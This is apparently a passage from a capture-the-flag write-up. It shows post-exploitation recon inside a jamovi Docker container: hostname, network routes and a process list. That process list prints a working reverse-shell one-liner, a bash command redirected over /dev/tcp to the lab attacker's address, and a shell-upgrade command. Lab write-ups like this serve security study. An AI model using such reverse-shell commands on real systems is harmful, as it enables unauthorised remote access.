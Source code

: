 This shell is clearly in a container:

```

root@b06821bbda78:~# hostname
b06821bbda78                    
root@b06821bbda78:~# ip addr  
bash: ip: command not found
root@b06821bbda78:~# ifconfig
bash: ifconfig: command not found
root@b06821bbda78:~# cat /proc/net/fib_trie
Main:
...[snip]...
     +-- 172.18.0.0/16 2 0 2
        +-- 172.18.0.0/30 2 0 2
           |-- 172.18.0.0
              /32 link BROADCAST
              /16 link UNICAST
           |-- 172.18.0.2
...[snip]...

```

The IP is 172.18.0.2, and there’s very limited tools installed. The process list shows only jamovi stuff:

```

root@b06821bbda78:~# ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.0 101704   288 ?        Ss   15:21   0:00 /bin/bash /usr/bin/jamovi-server 41337 --if=*
root          12  1.1  1.2 863208 24240 ?        Sl   15:21   1:28 python3 -u -m jamovi.server 41337 --if=*
root          42  0.2  4.2 501692 85908 ?        Sl   17:10   0:02 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-0 --path=/tmp/tmp3ymj4a5l
root          44  0.1  2.9 255848 59840 ?        Sl   17:10   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-1 --path=/tmp/tmp3ymj4a5l
root          46  0.1  2.9 255848 59652 ?        Sl   17:10   0:01 /usr/lib/jamovi/bin/jamovi-engine --con=ipc:///tmp/tmp94xmzbhn/conn-2 --path=/tmp/tmp3ymj4a5l
root          60  0.0  0.2  90072  5948 ?        S    17:21   0:00 sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
root          61  0.0  0.3 101704  7200 ?        S    17:21   0:00 bash -c bash -i >& /dev/tcp/10.10.14.6/443 0>&1
root          62  0.0  0.3 101880  7716 ?        S    17:21   0:00 bash -i
root          68  0.0  0.3 102660  6500 ?        R    17:22   0:00 script /dev/null -c bash
root          69  0.0  0.2  90072  5924 pts/0    Ss   17:22   0:00 sh -c bash
root          70  0.0  0.3 101884  7740 pts/0    S    17:22   0:00 bash
root          84  0.0  0.3 115908  7136 pts/0    R+   17:27   0:00 ps auxww

```

There’s also a `.dockerenv` file in the system root.
